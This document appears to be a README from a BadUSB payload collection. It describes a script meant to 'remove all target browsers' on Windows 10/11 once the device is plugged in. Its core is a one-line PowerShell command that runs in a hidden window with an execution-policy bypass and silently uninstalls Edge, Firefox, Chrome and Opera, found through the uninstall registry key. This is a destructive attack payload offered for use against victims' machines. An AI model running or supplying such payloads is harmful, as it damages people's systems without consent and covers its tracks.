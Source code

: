# Remove all Browsers - BadUSB ✅

A script used to remove all target browsers.

**Category**: Execution

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to remove all target browsers.

## Getting Started

### Dependencies

* Any Browser installed
* Windows 10,11

### Executing program

* Plug in your device

Execution
```powershell
powershell -w h -ep bypass -Command  "Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Where-Object {($_.DisplayName -like "Microsoft Edge") -or ($_.DisplayName -like "Mozilla Firefox") -or ($_.DisplayName -like "Google Chrome") -or ($_.DisplayName -like "Opera*")} | ForEach-Object {Uninstall-package $_.PSChildName -Verbose}"
```
